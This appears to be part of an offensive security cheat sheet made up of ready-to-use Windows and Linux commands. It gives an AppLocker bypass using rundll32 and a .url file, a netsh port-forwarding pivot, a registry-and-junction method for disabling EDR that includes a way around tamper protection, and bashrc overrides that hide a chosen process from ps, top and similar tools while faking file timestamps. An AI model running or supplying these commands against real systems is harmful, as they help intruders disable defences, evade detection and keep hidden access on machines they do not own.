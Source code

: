 ## LOLBAS

### AppLocker Bypass

`<FILE>.url`:

```c
[internetshortcut]
url=C:\Windows\system32\calc.exe
```

```c
C:\Windows\system32> rundll32 C:\Windows\system32\ieframe.dll,OpenURL C:\<FILE>.url
```

### Port Forwarding with netsh

```c
C:\> netsh interface portproxy add v4tov4 listenaddress=<RHOST> listenport=<RPORT> connectaddress=<LHOST> connectport=<LPORT>
```

## Look for hidden Files

```c
PS C:\> Get-ChildItem -Hidden -Path C:\Users\<USERNAME>\Desktop\
```

## PendingFileRenameOperations & Junctions EDR Disable

> https://github.com/rad9800/FileRenameJunctionsEDRDisable

```powershell
PS C:\> New-ItemProperty -path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager" -Name "PendingFileRenameOperations" -Value $($((Get-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager" -Name PendingFileRenameOperations -ErrorAction SilentlyContinue).PendingFileRenameOperations) + "\??\C:\Program Files\<FILE>.exe`0`0") -type MultiString -Force | Out-Null
```

For making a junction, you can use Sysinternals' `junction.exe`.
 
```c
PS C:\> .\junction.exe /PATH/TO/JUNTION/<JUNCTION> <FILE>.exe
```

If the `EDR` has `tamper protection`, make a `junction` to the `.exe` file of the `EDR` first!

## Process Hiding

```c
$ echo 'ps(){ command ps "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'top(){ command top "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'htop(){ command htop "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'procs(){ command procs "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'pgrep(){ command pgrep "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'pstree(){ command pstree "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
```
